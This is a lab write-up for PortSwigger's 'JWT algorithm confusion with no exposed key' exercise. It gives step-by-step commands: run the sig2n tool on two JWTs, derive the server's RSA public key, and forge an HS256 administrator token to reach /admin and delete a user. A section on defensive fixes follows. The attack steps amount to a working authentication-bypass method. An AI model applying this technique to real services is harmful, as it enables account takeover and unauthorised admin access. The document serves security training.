

---

**Difficulty:** 🔴 Expert

**Goal:**

- 🔐 Log in twice (log out between logins) — save **two different JWTs** from the session cookie
- 🐳 Run `docker run --rm -it portswigger/sig2n <token1> <token2>` — the tool derives possible RSA public keys and outputs a tampered JWT for each
- 🧪 Test each tampered JWT at `GET /my-account` — a **200 response** identifies the correct X.509 key
- 🔑 Copy the **Base64-encoded X.509 key** (not the tampered JWT) from the terminal output — create a **New Symmetric Key** in JWT Editor — replace `k` with it
- ✏️ In Burp Repeater, set the JWT header `alg` to `HS256` — set `sub` to `"administrator"` — click **Sign** with the symmetric key — check **"Don't modify header"**
- 🗺️ Send `GET /admin` — the server verifies with its public key as HMAC secret — it matches — admin panel loads
- 🗑️ Delete the user `carlos` → lab solved!

---

## 🧠 **Concept Recap**

> **JWT algorithm confusion with no exposed key** is an advanced variant where the server's public key is not published at `/jwks.json` or any standard endpoint. The attacker instead derives the RSA public key mathematically from two valid JWTs signed with the same private key. Given two RS256 signatures over known messages, the RSA modulus `n` can be recovered — and from `n` plus the standard exponent `e`, the full public key is reconstructed. Once the public key is known, the attack is identical to Lab 7: switch `alg` to `HS256`, sign with the public key as the HMAC secret, and the server's own verification logic accepts the forged token.

### 📊 **Lab 7 vs Lab 8 — Same End Attack, Different Key Source**

||**Lab 7 — Exposed Key**|**Lab 8 — No Exposed Key (this lab)**|
|---|---|---|
|**Public key location**|`/jwks.json`|Not published — must be derived|
|**Key retrieval method**|`GET /jwks.json` → copy JWK|Run `sig2n` Docker tool on 2 JWTs|
|**Tool needed**|Burp JWT Editor only|`sig2n` Docker tool + JWT Editor|
|**Key format used**|JWK → PEM → Base64 via Decoder|Base64 X.509 directly from tool output|
|**Algorithm confusion step**|Identical|Identical|
|**Difficulty**|Expert|Expert|

```js
Why two JWTs are enough to recover the public key:

RSA signature: sig = H(msg)^d mod n

Given:
  sig1 = H(msg1)^d mod n   (from JWT 1)
  sig2 = H(msg2)^d mod n   (from JWT 2)

Both signatures expose mathematical relationships involving n.
The sig2n tool uses these relationships to factor n,
then reconstructs the public key (e=65537, n=derived).

The tool may produce 2-4 candidate values of n (mathematical ambiguity).
Only one matches the server's actual key — identified by testing.
```

**The full attack flow:**

```js
Log in → copy JWT 1 → log out → log in again → copy JWT 2
         ↓
docker run --rm -it portswigger/sig2n <JWT1> <JWT2>
  → Tool outputs: candidate n values, tampered JWTs, Base64 X.509 keys
         ↓
For each tampered JWT (starting with multiplier 1):
  Replace session cookie → GET /my-account
  → 200 OK → correct key found ✅
  → 302 → wrong key, try next
         ↓
Copy Base64-encoded X.509 key for the correct multiplier (from terminal)
JWT Editor Keys → New Symmetric Key → Generate → replace k with Base64 key → save
         ↓
In Repeater → JSON Web Token tab:
  Header:  { "alg": "HS256", ... }    ← changed from RS256
  Payload: { "sub": "administrator", ... }
         ↓
Sign → select symmetric key → "Don't modify header" → OK
         ↓
Send GET /admin → admin panel loads ✅
Delete carlos → lab solved ✅
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Install JWT Editor and Log In**

1. 🌐 Click **"Access the lab"**
2. 🔌 Ensure **Burp Suite is running** and proxying traffic
3. ⚙️ In Burp → **Extender → BApp Store** → search **JWT Editor** → click **Install**
4. 🖱️ On the lab site, click **"My account"** → log in with `wiener` / `peter`
5. 🖱️ In Burp → **Proxy → HTTP history** → find the post-login `GET /my-account`
6. 🖱️ Right-click → **"Send to Repeater"**

---

### 🔧 **Step 2 — Confirm You're Blocked from /admin**

1. 🖱️ In Repeater, change the path from `/my-account` to `/admin` → click **"Send"**

```js
Expected result:
  → "Admin interface only accessible if logged in as the administrator"
  → Confirms admin access is gated on the sub claim
  → JWT header shows alg: RS256 — asymmetric signing in use
  → No /jwks.json endpoint exists — public key is not exposed
```

---

### 🔧 **Step 3 — Collect the First JWT**

1. 🖱️ Change the path back to `/my-account` → click **"Send"** (to get a clean view of the cookie)
2. 📋 In the **Cookie** header, copy the full `session=` JWT value and save it somewhere:

```js
JWT 1: eyJraWQiOiI5MTM2ZGRiMy1jYjBhLTRhMTktYTA3ZS1lYWRmNWE0NGM4YjUiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTcwNTY3ODQwMH0.sig1...
```

```js
Confirm in the decoded header:
  { "kid": "9136ddb3-...", "alg": "RS256" }

Note the kid value — both JWTs must have the same kid
(same key used for both) or the derivation won't work.
```

---

### 🔧 **Step 4 — Log Out and Collect the Second JWT**

1. 🖱️ On the lab site, click **"Log out"**
2. 🖱️ Click **"My account"** → log in again with `wiener` / `peter`
3. 🖱️ In Burp → **Proxy → HTTP history** → find the new post-login `GET /my-account`
4. 📋 Copy the **new** session JWT and save it:

```js
JWT 2: eyJraWQiOiI5MTM2ZGRiMy1jYjBhLTRhMTktYTA3ZS1lYWRmNWE0NGM4YjUiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTcwNTY3ODUwMH0.sig2...
```

```js
What makes JWT 2 useful:
  → Different exp timestamp → different payload → different signature
  → Same kid → signed with the same RSA private key
  → Two different signatures from the same key = enough information
    for sig2n to mathematically derive the public key

You now have: JWT 1 and JWT 2 — both RS256, same kid, different signatures.
```

---

### 🔧 **Step 5 — Run the sig2n Docker Tool**

1. 🖱️ Open a terminal on your machine
2. 🖱️ Run the following command, substituting your two JWTs:

```bash
docker run --rm -it portswigger/sig2n <JWT1> <JWT2>
```

**Full example:**

```bash
docker run --rm -it portswigger/sig2n \
"eyJraWQiOiI5MTM2ZGRiMy1jYjBhLTRhMTktYTA3ZS1lYWRmNWE0NGM4YjUiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTcwNTY3ODQwMH0.PjK8..." \
"eyJraWQiOiI5MTM2ZGRiMy1jYjBhLTRhMTktYTA3ZS1lYWRmNWE0NGM4YjUiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTcwNTY3ODUwMH0.Lkm9..."
```

```js
First run note:
  → Docker will pull the portswigger/sig2n image if not already cached
  → This may take several minutes on first use
  → Subsequent runs are fast
```

---

### 🔧 **Step 6 — Read the sig2n Output**

The tool outputs one or more candidate keys. For each:

```js
Found n with multiplier 1:
    n = 0xab48a177e7c8ce697d...

    Tampered JWT: eyJraWQiOiI5MTM2ZGRiMy1jYjBhLTRhMTktYTA3ZS1lYWRmNWE0NGM4YjUiLCJhbGciOiJIUzI1NiJ9...

    Base64 encoded x509 key: LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0KTUlJQklqQU5C...

    Base64 encoded pkcs1 key: LS0tLS1CRUdJTiBSU0EgUFVCTElDIEtFWS0tLS0tCk1JSUJD...

Found n with multiplier 2:
    n = 0x1d6e3c0...
    Tampered JWT: eyJraWQiOiI...
    Base64 encoded x509 key: ...
    ...
```

```js
Three things per candidate:
  1. Tampered JWT — pre-forged HS256 token signed with this candidate key
     (use this to TEST which key is correct)
  2. Base64 encoded x509 key — the public key in X.509 format
     (use this to CREATE your symmetric key after finding the correct one)
  3. Base64 encoded pkcs1 key — alternative encoding (not needed for this lab)

Important: You need both outputs — the tampered JWT for testing,
and the Base64 x509 key for signing. Don't mix them up.
```

---

### 🔧 **Step 7 — Test Each Tampered JWT to Find the Correct Key**

1. 📋 Copy the **Tampered JWT** from the **first** `Found n with multiplier 1` block
2. 🖱️ In Burp Repeater, ensure the path is `/my-account`
3. ✏️ Replace the `session=` cookie value with the tampered JWT
4. 🖱️ Click **"Send"**

```js
If you receive 200 OK → correct key found ✅ — proceed to Step 8
If you receive 302 redirect to /login → wrong key

If 302: copy the Tampered JWT from multiplier 2, repeat the test.
Continue through each multiplier until you get 200 OK.
Usually the correct key is multiplier 1 or 2.
```

```js
Why test at /my-account, not /admin?
  → The tampered JWT from sig2n still has sub: "wiener"
  → /my-account will load fine for wiener if the signature is valid
  → /admin would return 403 regardless — not a useful test
  → 200 at /my-account confirms the key is correct; 302 confirms it's wrong
```

---

### 🔧 **Step 8 — Copy the Correct Base64 X.509 Key**

1. 🖱️ In your terminal, locate the **same multiplier block** that gave you a 200 response
2. 📋 Copy the **`Base64 encoded x509 key`** value — the long string starting with `LS0tLS1...`

```js
Critical distinction:
  → The tampered JWT (used in testing)    ← do NOT copy this
  → The Base64 encoded x509 key           ← copy THIS

The Base64 x509 key is already in the correct format to use as
the k value in a JWT Editor symmetric key — no Burp Decoder step needed.
This is different from Lab 7 where you had to encode the PEM yourself.
```

---

### 🔧 **Step 9 — Create a Symmetric Key from the Derived Public Key**

1. 🖱️ In Burp → **JWT Editor Keys** tab → click **"New Symmetric Key"**
2. 🖱️ Click **"Generate"** — a placeholder JWK is created:

```json
{
  "kty": "oct",
  "kid": "some-generated-id",
  "k": "random-base64-string"
}
```

3. ✏️ Replace the `k` value with the **Base64-encoded X.509 key** you copied from the terminal:

```json
{
  "kty": "oct",
  "kid": "some-generated-id",
  "k": "LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0KTUlJQklqQU5C..."
}
```

4. 🖱️ Click **"OK"** to save

```js
What this creates:
  → An HMAC symmetric key whose secret bytes ARE the server's RSA public key
  → The server stores its public key as X.509 PEM — the Base64 encodes those exact bytes
  → When the server verifies an HS256 token, it reads its own public key file
    and uses those bytes as the HMAC secret — matching our signature exactly
```

---

### 🔧 **Step 10 — Modify the JWT Header and Payload**

1. 🖱️ In Repeater, change the path to `/admin`
2. 🖱️ Click the **JSON Web Token** tab
3. 🖱️ In the **Header** section, change `alg` from `"RS256"` to `"HS256"`:

```json
{
  "kid": "9136ddb3-cb0a-4a19-a07e-eadf5a44c8b5",
  "alg": "HS256"
}
```

4. 🖱️ In the **Payload** section, change `sub` from `"wiener"` to `"administrator"`:

```json
{
  "iss": "portswigger",
  "sub": "administrator",
  "exp": 1705678400
}
```

5. 🖱️ Click **"Apply changes"** after each edit

---

### 🔧 **Step 11 — Sign the Token with the Symmetric Key**

1. 🖱️ At the bottom of the **JSON Web Token** tab, click **"Sign"**
2. 🖱️ Select the **symmetric key** you created with the derived public key
3. ☑️ Ensure **"Don't modify header"** is checked

```js
Why "Don't modify header" must be checked:
  → Without it, the Sign function resets alg back to a value
    that matches the key type (HS256 for oct key — this one is fine)
    BUT it may also regenerate or change the kid
  → Checking it freezes the header exactly as you edited it,
    preserving both alg: HS256 and the original kid value
```

4. 🖱️ Click **"OK"**

```js
Result:
  → JWT signed with HMAC-SHA256 using the derived RSA public key as the secret
  → Server reads alg: HS256 → switches to HMAC verification
  → Server uses its stored public key (X.509 PEM bytes) as the HMAC secret
  → Our signature was computed with those same bytes → verification passes ✅
```

---

### 🔧 **Step 12 — Access the Admin Panel**

1. 🖱️ Confirm the request looks like this:

```http
GET /admin HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=MODIFIED-HEADER.MODIFIED-PAYLOAD.NEW-SIGNATURE
```

2. 🖱️ Click **"Send"**

```js
Expected result:
  → 200 OK — admin panel HTML loads ✅
  → HMAC verified with public key → passed
  → sub: "administrator" → admin access granted
```

---

### 🔧 **Step 13 — Delete carlos**

1. 🖱️ In the admin panel response, find the delete URL:

```js
/admin/delete?username=carlos
```

2. 🖱️ In Repeater, update the path:

```http
GET /admin/delete?username=carlos HTTP/1.1
Cookie: session=MODIFIED-HEADER.MODIFIED-PAYLOAD.NEW-SIGNATURE
```

3. 🖱️ Ensure the JWT still has `alg: HS256`, `sub: administrator`, and the derived-key signature
4. 🖱️ Click **"Send"**

```js
Result:
  → carlos is deleted ✅
  → Lab solved! 🎉
```

---

## 🎉 **Lab Solved!**

```
✅ Collected two valid RS256 JWTs with different signatures
✅ Ran sig2n Docker tool → derived candidate RSA public keys
✅ Tested tampered JWTs at /my-account → identified correct X.509 key
✅ Created symmetric key with Base64 X.509 key as k value
✅ Changed JWT alg → HS256, sub → "administrator"
✅ Signed with symmetric key (preserving header)
✅ Server verified with public key in HMAC mode → passed
✅ Admin panel loaded → carlos deleted
✅ Lab complete!
```

---

## 🔗 **Complete Attack Chain**

```r
1.  Log in as wiener → GET /my-account → Send to Repeater
2.  GET /admin with original token → blocked (sub: wiener, alg: RS256)
3.  Copy JWT 1 from session cookie → log out → log in again → copy JWT 2
4.  Terminal: docker run --rm -it portswigger/sig2n <JWT1> <JWT2>
5.  Copy Tampered JWT (multiplier 1) → replace session cookie → GET /my-account
    → 200 OK: correct key ✅ | 302: try multiplier 2
6.  Copy Base64 encoded x509 key for the correct multiplier (from terminal)
7.  JWT Editor Keys → New Symmetric Key → Generate → replace k with Base64 key → OK
8.  Repeater → JSON Web Token tab → Header: alg → "HS256"
9.  Payload: sub → "administrator"
10. Sign → select symmetric key → "Don't modify header" checked → OK
11. GET /admin → admin panel loads
12. GET /admin/delete?username=carlos → lab solved
```

**No private key. No `/jwks.json`. Just two login sessions, a Docker tool, and the math of RSA signatures.**

---

## 🧠 **Deep Understanding**

### How sig2n derives the public key from two JWTs

```js
RSA signing: sig = H(msg)^d mod n

Given two signatures:
  sig1 = H(msg1)^d mod n
  sig2 = H(msg2)^d mod n

The tool computes:
  sig1^e mod n = H(msg1)   (where e = 65537, the standard public exponent)
  sig2^e mod n = H(msg2)

By analysing the mathematical relationship between sig1, sig2,
H(msg1), H(msg2), and the standard e value, the tool factors n
(recovers the RSA modulus) through GCD-based techniques.

Multiple candidate values of n are produced (the "multipliers"):
  → Each is a mathematically valid possibility given the two signatures
  → Only one actually matches the server's real n
  → Testing with a tampered JWT determines which is correct
```

### Why only two JWTs are needed

```js
Both JWTs must share:
  ✅ Same kid → same private key used for both
  ✅ Different payloads → different messages → different signatures

If both JWTs have the same exp (identical payloads):
  → Identical signatures → no mathematical variation → tool fails
  → This is why you log out and back in: new exp = new signature

If JWTs have different kid values:
  → Different private keys → tool computes the wrong relationship → fails
  → Both must be signed by the same key
```

### Lab 7 vs Lab 8 — identical end-game, different key acquisition

```js
Lab 7 key acquisition:
  GET /jwks.json → copy JWK → New RSA Key → paste JWK → OK
  Right-click → Copy Public Key as PEM
  Burp Decoder → paste PEM → Encode as Base64 → copy

Lab 8 key acquisition:
  Collect 2 JWTs → run sig2n in terminal
  Test tampered JWTs at /my-account → find correct multiplier
  Copy Base64 encoded x509 key directly from terminal output

From "create symmetric key" onwards: both labs are identical.
The only difference is HOW you obtain the Base64-encoded public key.
```

---

## 🐛 **Troubleshooting**

```js
Problem: All tampered JWTs return 302 redirect
→ The two JWTs may have identical payloads (same exp timestamp)
  → Log out and wait a few seconds before logging in again for a different exp
→ Check that both JWTs have the same kid — if different, the keys don't match
→ Collect fresh JWTs and rerun sig2n immediately (tokens expire)

Problem: sig2n outputs only one candidate key and it returns 302
→ Collect a third JWT and rerun: docker run portswigger/sig2n <JWT1> <JWT2> <JWT3>
→ More JWTs give the tool more information → more accurate factorisation

Problem: sig2n runs for more than 10 minutes without output
→ Stop with Ctrl+C — one of the JWTs may be malformed
→ Verify both JWTs are complete (three dot-separated sections, no truncation)
→ Try pasting each JWT into jwt.io to confirm they decode correctly

Problem: Docker image not found or pull fails
→ Ensure Docker is running: docker info
→ Try pulling manually first: docker pull portswigger/sig2n
→ Check internet connectivity from the machine running Docker

Problem: Admin panel returns 401 after signing
→ Most likely: "Don't modify header" was not checked
  → The Sign step may have changed the alg or kid — re-examine the header after signing
  → Reapply alg: HS256 and re-sign with "Don't modify header" checked

Problem: Mistakenly used the Tampered JWT as the k value instead of the Base64 key
→ The Tampered JWT and the Base64 key are two different outputs from sig2n
→ The k value must be the Base64 encoded x509 key line, not the JWT string
→ Delete the symmetric key, create a new one, and paste only the Base64 key

Problem: Delete request returns 401 after /admin loaded
→ The modified JWT must be used in the delete request too
→ Check the Cookie header — Burp may have reverted to the original session
→ Paste the forged JWT manually into the Cookie header before sending

Problem: Lab already solved / carlos not in user list
→ Reset the lab from the lab page to restore original state
```

---

## 💬 **In One Line**

🔓 With no public key endpoint available, two RS256 JWTs were fed into the `sig2n` tool to mathematically derive the server's RSA public key — then, identical to Lab 7, switching `alg` to `HS256` and signing with that public key as the HMAC secret produced a forged administrator token the server verified with its own key. That's **JWT Algorithm Confusion with No Exposed Key** — the public key was hidden, but the signatures gave it away.

---
---

## 🔒 **How to Fix It**

```js
# Priority 1 — Hardcode the expected algorithm — never read it from the token
# This single fix prevents both Lab 7 and Lab 8 entirely

# ❌ BAD — algorithm taken from the JWT header:
header = jwt.get_unverified_header(token)
alg = header['alg']                         # attacker controls this
payload = jwt.decode(token, public_key, algorithms=[alg])

# ✅ GOOD — algorithm fixed in server config:
EXPECTED_ALGORITHM = 'RS256'

payload = jwt.decode(token, rsa_public_key, algorithms=[EXPECTED_ALGORITHM])
# If token has alg: HS256 → InvalidAlgorithmError raised automatically
```

```js
# Priority 2 — Never use the same key object for both RSA and HMAC paths
# Keep key types strictly separated by the verification function

# ❌ BAD — same public_key variable reused regardless of algorithm:
def verify(token):
    alg = jwt.get_unverified_header(token)['alg']
    return jwt.decode(token, rsa_public_key, algorithms=[alg])
    # If alg=HS256 → rsa_public_key bytes used as HMAC secret ← confused!

# ✅ GOOD — key type and algorithm are bound together, no branching on client input:
RSA_PUBLIC_KEY = load_rsa_public_key('/etc/keys/public.pem')

def verify(token):
    return jwt.decode(token, RSA_PUBLIC_KEY, algorithms=['RS256'])
    # HS256 not in ['RS256'] → rejected regardless of token header
```

```js
# Priority 3 — Reject symmetric algorithm families explicitly before decoding

SYMMETRIC_ALGORITHMS = {'HS256', 'HS384', 'HS512'}

def verify_token(token):
    header = jwt.get_unverified_header(token)

    if header.get('alg') in SYMMETRIC_ALGORITHMS:
        raise ValueError("Symmetric algorithms are not accepted on this endpoint")

    return jwt.decode(token, RSA_PUBLIC_KEY, algorithms=['RS256'])
```

```js
# Priority 4 — Do not expose the public key unnecessarily
# (does not fix the vulnerability, but reduces attacker convenience)
# The real fix is always algorithm whitelisting — not hiding the key

# Even if /jwks.json is removed:
#   → Two JWTs + sig2n → public key derived anyway (this lab)
#   → The public key being "hidden" buys very little against a determined attacker
#   → Fix the algorithm confusion; treat the public key as non-secret

# ✅ REAL DEFENCE: whitelist RS256, reject HS256 — done.
```

---
